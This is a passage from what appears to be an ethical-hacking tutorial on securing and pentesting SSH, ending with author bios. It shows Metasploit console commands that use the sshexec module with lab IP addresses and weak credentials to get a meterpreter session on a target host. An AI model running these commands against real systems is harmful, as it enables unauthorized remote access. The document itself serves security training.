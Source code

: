 msf > use exploit/multi/ssh/sshexec
msf exploit(sshexec) >set rhosts 192.168.1.103
msf exploit(sshexec) >set username ignite
msf exploit(sshexec) >set password 123
msf exploit(sshexec) >set srvhost 192.168.1.107
msf exploit(sshexec) >exploit

as a result you can observe that we have meterpreter session of the host machine.

Conclusion: In this post, we try to discuss the possible way to secure SSH and perform penetration testing against such a scenario.

Author: Nisha Sharma is trained in Certified Ethical hacking and Bug Bounty Hunter. Connect with her here
ABOUT THE AUTHOR
Raj Chandel	
Raj Chandel

Raj Chandel is Founder and CEO of Hacking Articles. He is a renowned security evangelist. His works include researching new ways for both offensive and defensive security and has done illustrious research on computer Security, exploiting Linux and windows, wireless security, computer forensic, securing and exploiting web applications, penetration testing of networks. Being an infosec enthusiast himself, he nourishes and mentors anyone who seeks it.
